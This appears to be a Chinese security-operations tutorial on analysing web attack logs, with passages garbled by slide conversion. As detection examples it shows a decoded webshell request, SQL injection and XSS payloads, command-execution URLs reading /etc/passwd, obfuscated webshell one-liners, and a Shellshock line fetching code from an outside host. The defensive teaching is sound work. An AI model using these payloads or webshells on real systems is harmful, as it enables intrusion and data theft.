


### 一.Web应用基础知识与工具

1、编码

编码方式: URL编码、
BASE64编码、
16进制编码、UTF-8编码
字符集: Unicode，GB2312， GBK等

16进制码
以x开头
GET /news/society/201210/2358322923.shtml"</script> <object data=jav\x61scr\x69pt:npsduc(uhg)>
红色部分16进制解码后如下
GET /news/society/201210/2358322923.shtml"</script><object data=javascript:npsduc(uhg)>
;
在线转换https://www.bejson.com/convert/ ox2str/

UNICODE编码:
以u、\u+、 &#x、&#开头
比如
\u0031\u0038\u0037\u0030\u0038\u0036\u0030\u0039\u0039\u0030\u0039
解码后是个手机号18708609909
在线转换https://www.online-toolz.com/tools/text-unicode-entities-convertor.php

Base64编码
base64是网络上最常见的用于传输8Bit字节代码的编码方式之一， 要求把每E
个8Bit的字节转换为四个6Bit的字节，在email传输中， 加密是肯定的，但是加密的
目的不是让用户发送非常安全的Email。这种加密方式主要就是“防君子不防小人”。
个人认为这个不能算加密，因为这种编码过程是可逆的

2、解码工具
3、数据提交方式

我们一般是通过GET、POST 、COOKIE
(俗称GPC)三部分提交参数请求给服务器的
GPC通常被利用提交恶意参数执行web应用层攻击,其它HTTP头部也可被攻击者利用
Type和id就是我们提交的请求，&
例:
为参数分隔符
POST /addnews.asp HTTP/1.1 t
GET /news.asp?type=5&id=123 HTTP/1.1<br>Accept: */*
Referer: http://www .test.com/index.asp
Accept- Language: zh-CN
User-Agent: Moilla/4.0 (compatible; MSIE 8.0 Cookie里也能提交参数请求， 分号;为参数分隔符
Accept- Encoding: gzip, deflate
Host: www.test. com
Connection: Keep- Alive
POST body提交参数请求，&为参数分隔符
Cookie: ASPSESSIONID=MIIDIPGCCJGAFJ
Title=test&content=test

4、常见脚本语言
5、日志还原

还原日志的前提是获取到攻击者发送的数据包内容
如何获取攻击者发送的数据?

1、防火墙:
防火墙内置数据中心会记录数据包内容
2、态势感知: .
态势感知外部威胁感知日志里面记录的数据包内容

两者都可以导出数据中心里面的日志，如果可以重现，可以防火墙上面直接
抓取数据包


URL+BASE64编码还原
例：开头讲到让客户抓狂的webshell日志
POST /upfiles/bak.php

ghost=**%40**eval**%01%28**base64_decode**%28%24**_POST**%5B**z0**%5D%29%29%3B**&z0=Q
GluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X
21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0**%2B**fCIpOzskRj1iYXNlNjRfZGVjb2RlK
CRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCRGLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpe
mUoJEYpKSk7QGZjbG9zZSgkUCk7O2VjaG8oInw8LSIpO2RpZSgpOw**%3D%3D**&z1=RDpc
XEFQTVNlcnY1LjIuNlxcd3d3XFxwaHBNeUFkbWluXFxjb25maWcuc2FtcGxlLmluYy5waH
A**%3D**

url解码一次

ghost=@eval(base64_decode($_POST[z0]));**&z0**=QGluaV9zZXQoImRpc3BsYXlfZXJyb3Jz
IiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDA
pO2VjaG8oIi0+fCIpOzskRj1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCR
GLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpemUoJEYpKSk7QGZjbG9zZSgkUCk7O2Vja
G8oInw8LSIpO2RpZSgpOw==**&z1**=RDpcXEFQTVNlcnY1LjIuNlxcd3d3XFxwaHBNeUFkbW
luXFxjb25maWcuc2FtcGxlLmluYy5waHA=
将z0和z1进行BASE64解码如下

z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0
);echo(">|");;$F=base64_decode($_POST["z1"]);$P=@fopen($F,
"r");echo(@fread($P,filesize($F)));@fclose($P);;echo("|<-");die();
z1=D:\\APMServ5.2.6\\www\\phpMyAdmin\\config.sample.inc.php

可以看出来是菜刀工具连接PHPwebshell读取config.sample.inc.php内容的行为，
非误报

### 二.如何分析日志

#### 1、分析日志的目的

#### 2、攻击出现的位置


• Get、post 请求报文的url字段
• Get 、post请求报文的cookie字段
• Get、post请求报文的referer字段


• xss攻击
• SQL注入
• 命令执行
• 文件包含
• 目录穿越
• webshell
• 信息泄露
• 网站扫描
cookie字段、referer字段、post表单字段和url请求类似

• Post请求报文的表单字段



• Get 、post请求报文的user-agent字段  

User-agent 字段或者类似表示访问客户端软件的字段

1. 恶意爬虫：Python-urllib/2.6、Baidu-YunGuanCe-ScanBot(ce.baidu.com)
2. 扫描器：morfeus fucking scanner、 Accept:acunetix/wvs
3. sql注入漏洞：sqlmap/1.0.8.15#dev (http://sqlmap.org)
4. xss攻击：'%22()%26%25<ScRiPt%20>prompt(961668)</ScRiPt>
5. 其它非常特殊攻击 ：User-Agent: () { :; }; /bin/mkdir -p /share/HDB_DATA/.../ && /usr/bin/wget -q -c http://lliillii.altervista.org/io.php 0<&1 2>&1

• Post请求报文的表单字段
• Http应答页面

http报文负载部分
• webshell （请求和应答方向都可能）
• 信息泄露（应答方向）

总结:什么是攻击
• 在http报文头部，出现了一些不应该出现的字段
• url和post表单，referer、cookie出现了sql语句、系统命令、脚本代码(js代码、php代码)一般都不正
常
• 访问或者探测了一些敏感文件
• 应答报文可能泄露一些系敏感信息的


#### 3、攻击常见的语句

• sql**注入**

• 探测语句
• http://www.19cn.com/showdetail.asp?id=49 and 1=1
• http://www.19cn.com/showdetail.asp?id=49 or 1=1
• and char(124)%2Buser%2Bchar(124)=0 （注入类型判断）
• 权限判断
• and user>0 用户名
• and 1=(select IS_SRVROLEMEMBER('sysadmin')) 权限
• and exists (select * from sysobjects) 数据库类型判断sqlserver

• 查询数据

• and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) 查库名<br>•  and (select top 1 name from TestDB.dbo.sysobjects where xtype='U' and status>0 查表名<br>•  and (select count(字段名) from 表名)>0 猜字段<br>•  and (select top 1 len(username) from admin)=X 猜字段值<br>• http://localhost/mytest/sqlinject/?id=1+UNION+SELECT+1,password,3,username,5,6,7,8,9+FROM+useunion select猜解法•  数据
 and ascii(lower(substring((select top 1 name from sysobjects where xtype='u'), 1, 1))) > 116

```
REQUEST:
GET /webDisplay/ESite/English/DetailSubCollege.jsp?id=b27e56ef-d3b8-42e1-bf0b-6ca906ee6dec'and'x'='x 
HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; generic_01_01; InfoPath.1)
Host: www.sada.sh.edu.cn
Accept: */*
Cookie: JSESSIONID=77790B475346A1A5DDA5BB269EF64903
REQUEST:
GET
/plus/search.php?keyword=as&c=d&typeArr[111%3D@`\'`)+UnIon+seleCt+1,2,3,4,5,6,7,8,9,10,userid,12
,13,14,15,16,17,18,19,20,21,22,23,24,25,26,pwd,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42+from
+`%23@__admin`%23@`\'`+]=a HTTP/1.1
Accept: */*
Accept-Language: zh-cn
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
Cookie: JSESSIONID=0000dB5Hac5-0MrKRsyqX6sr-Lr:-1
Host: www.bcu.edu.cn


REQUEST:
POST /login/login.asp HTTP/1.1
Content-Length: 304
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Host: 211.68.97.16:12000
Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: sqlmap/1.0.4.19#dev (http://sqlmap.org)
Accept-Charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Connection: close
Pragma: no-cache
Cache-Control: no-cache,no-store
Content-Type: application/x-www-form-urlencoded; charset=utf-8
user_no=lNiv&user_pass=&u_type=4%' AND (SELECT 2017 FROM(SELECT
COUNT(*),CONCAT(0x7178766b71,(SELECT (ELT(2017=2017,1))),0x7178787171,FLOOR(RAND(0)*2))x
FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='&Submit=
+%B5%C7+%C2%BC+
2021/3/26


REQUEST:
POST /do/s_ rpc.php HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Host: www.edu.dl.cnContent-Length: 235
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, likeGecko) Chrome/27.0.1453.93 Safari/537.36queryString=111%df' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECTconcat(0x3a,username,0x3a,password,0x3a) from qb_members limit0,1),FLOOR(RAND(0)*2))X FROM information_  schema.tables GROUP BY X)a) #
  HTTP/1.1
 
 ication/x-www-form-urlencoded
 n
 5
 a/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like .1453.93 Safari/537.36
' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECTme,0x3a,password,0x3a) from qb_members limit
*2))X FROM information_schema.tables GROUP BY X)a) #内部资料 准达内部资
```

• xss**攻击**

```
REQUEST:
GET /CuteSoft_Client/'"()&%<ScRiPt >prompt(994848)</ScRiPt>/SpellCheck.aspx HTTP/1.1
Referer: http://emp.bcu.edu.cn/
Cookie: ASP.NET_SessionId=gd1kgz55m5wmrt45oorcal55;
ASPSESSIONIDASBQQBCS=MPNDNMCCBNGNECDGKAAIEDMF
Host: emp.bcu.edu.cn
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/28.0.1500.63 Safari/537.36
Accept: */*
REQUEST:
GET /error_page.htm?flag='+alert('XSS')+' HTTP/1.1
Host: tuan.midea.com.cn
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1）
```

• <script>alert("xss")</script> 脚本
• /</img src="javascript:alert('xss');"> 属性
• </img src="http://ha.ckers.org/xss.jpg">
• <body onload=alert('xss')> 事件
• <div style="background-image:url(javascript:alert('xss'))">
• <style type="text/javascript">alert('xss');</style>
• <style>@import'javascript:alert("xss")';</style>
• <link rel="stylesheet" href="http://ha.ckers.org/xss.css">


• **命令执行**

• GET /simple/tests/tmssql.php?do=phpinfo
• GET /detail.php?id=/winnt/system32/cmd.exe?/c+dir+c:%5c
• GET /cgi/maker/ptcmd.cgi?cmd=;cat+/tmp/config/usr.ini
• GET /cgi/maker/ptcmd.cgi?cmd=;cat+/etc/passwd

• **目录穿越**


• **webshell**

• <%eval request("sb")%>
• <%execute request("sb")%>
• <?php eval($_POST[sb]);?>
• <?php @eval($_POST[sb]);?>
• <?$_POST['sa']($_POST['sb']);?>
• <?php @preg_replace("/[email]/e",$_POST['h'],"error"); ?><br>•  <%eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("123"))%><br>• <%r+k-es+k-p+k-on+k-se.co+k-d+k-e+k-p+k-age=936:e+k-v+k-a+k-lr+k-e+k-q+k-u+k-e+k-s+kt("c")%>(UTF-7编码格式的一句话木马)<br>
• <?php @$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";@$_/*-/*-*/($/*-/*- */{"_P"./*-/*-*/"OS"./*-/*-*/"T"}[/*-/*-*/0/*-/*-*/]);?>

• **信息泄露**

• 配置文件访问
• httpd.conf
• htaccess
• HTPASSWD
• boot.ini
• etc/passwd
• Php.ini
• Web.xml

• 特殊后缀
• .mdb、 .sql
• .bak、.sav、.old、.las
• .tmp、.temp
• .rar、.zip、.bz、gzip、tar
• .conf、inc、ini、bat
• .log、stats、statistics
• Web.xml

• 目录浏览
• Parent Directory
• Directory Listing For
• Index of /
• Welcome to the directory listing
• 错误信息
• 数据库错误信息
• 程序错误信息

• **网站扫描**

• 恶意爬虫
• 浏览器的user-agent字段一般都比较固定如: • User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1;
Trident/5.0) ——IE 9.0
• 不是浏览器的user-agent ，很可能就是爬虫
• 扫描软件： user-agent字段或者单独标示自己的软件
• 综合扫描器： wvs、 appscan
• 专用扫描器： sql注入
2021/3/26
准达内


#### 4、攻击常见的特点

攻击特点：
• 攻击一般都有一定的连续性，所以一段时间会产生多条日志，并且命中特
征id是有一定分布的，不能是只命中某个特征。
• 攻击一般都会借助工具进行，同一个IP地址日志间隔较小 ，可能一秒中产
生几条日志，明显不是人操作浏览器的行为。
• 攻击者可能会借助一定跳板，如果IP地址是国外的，攻击嫌疑较大

#### 5、攻击日志分析流程

**• 基于攻击IP地址方法分析（适用日志较多的情况）**
	• 找出一个明显的攻击行为的日志
	• 根据该日志找出攻击源IP地址
	• 筛选出针对该IP地址的日志，这种情况下基本都是攻击，没有误报
	• 针对该IP地址，利用前面介绍的知识，就可以看出攻击者都发起了哪些攻
击

**• 基于攻击方法分析（适用每类不太多的攻击）**
	• 看攻击语句，是否是明显攻击行为
	• 如果能看出是明显的行为，就可以确定是攻击
	• 如果不确定，还需要结合其他参数，
		源IP地址 ：是否出现过其他类型可以明确的攻击行为
		攻击时间：如果半夜或者凌晨活动比较频繁 ，可以怀疑为攻击。
		日志频率 ：一秒中出现几次日志，可以怀疑为攻击。
		攻击位置：国外的ip地址 ，可以怀疑为攻击
		报文语义分析：比如访问admin文件夹 ，可能是有攻击行为
上述几个参数可以组合分析，进一步确定攻击

问题 ：一些网站实现存在安全隐患 ，用户的一些正常流量，也可以被攻击者篡改，
直接发起攻击。
• 常见问题：
• url参数实现时直接传递sql语句
• url参数实现时可以传递js脚本
• url参数实现时用../进行目录穿越访问文件
• url参数实现时直接调用一些系统函数
• url参数可以进行域名重定向
• 系统配置存在安全隐患<br>• 通过参数直接传sql语句（ sql注入类误报）<br>• 通过参数直接传js脚本 （XSS中误报较多）<br>• 通过../穿越目录访问文件 （目录穿越误报）<br>• 通过url参数进行域名跳转（远程文件包含误报）<br>• 开启了目录访问功能（信息泄露）

攻击和正常应用区分不开

• 前面说的用户网站存在一定安全隐患是这种情况的一种
• 还有一种情况 ，用户的应用比较特殊，理论上所有规则都能误报
	• 用户是一个论坛类应用，可以提交任意东西，包括文章类
	• 用户是一个代码提交讨论网站，经常通过post表单提交代码
	• 这类应用主要体现在学校应用中较多

• 用户的应用是传一个文章，里面有攻击常见的关键字


• 用户的应用是代码交流网站，传一段代码


• 熟悉攻击产生位置
• 熟悉攻击常见语句
• 掌握攻击分析方法
• 常见误报原因及改进措施